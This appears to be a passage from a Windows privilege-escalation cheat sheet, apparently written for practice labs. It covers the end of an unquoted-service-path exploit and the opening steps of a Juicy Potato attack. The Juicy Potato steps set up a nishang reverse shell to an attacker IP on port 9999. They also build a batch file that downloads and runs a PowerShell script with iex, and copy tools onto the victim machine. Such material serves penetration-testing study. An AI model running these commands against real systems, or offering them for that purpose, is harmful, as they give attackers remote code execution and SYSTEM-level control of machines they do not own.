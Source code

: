 ### Windows VM

1. Place `common.exe` in `'C:\Program Files\Unquoted Path Service'`.
2. Open command prompt and type: 
```console
C:\Temp> sc start unquotedsvc
# OR
C:\Temp> net start unquotedsvc
```

### Kali VM

1. Wait for a reverse shell on your kali machine.

# <span style="color:lightblue">Juicy potato attack</span>

## <span style="color:lightgreen">Methodology</span>

This privilege allows us to impersonate a token of a privileged account such as NT AUTHORITY\SYSTEM. 

## <span style="color:lightgreen">Detection</span>


### Windows VM

1. We should have `SeImpersonatePrivilege` privileges enabled
```console
C:\Temp>whoami /priv
```
![image](https://user-images.githubusercontent.com/59029171/161144004-97322646-a231-4fef-afd8-239570f44f8c.png)

##  <span style="color:lightgreen">Exploitation</span>

### Kali VM
1. Copy `Invoke-PowerShellTcp.ps1` from [nishang](https://github.com/samratashok/nishang/tree/master/Shells) shells as `shell.ps1`
2. Add the line at the bottom of `shell.ps1`
```console
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.31 -Port 9999
```

3. Lets create a `shell.bat` file
```console
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.31/shell.ps1')
```

4. Transfer `shell.bat` and `juicypotato.exe` on victim machine
```console
$ (new-object net.webclient).downloadfile('http://10.10.14.31/file', 'C:\temp\file')
```
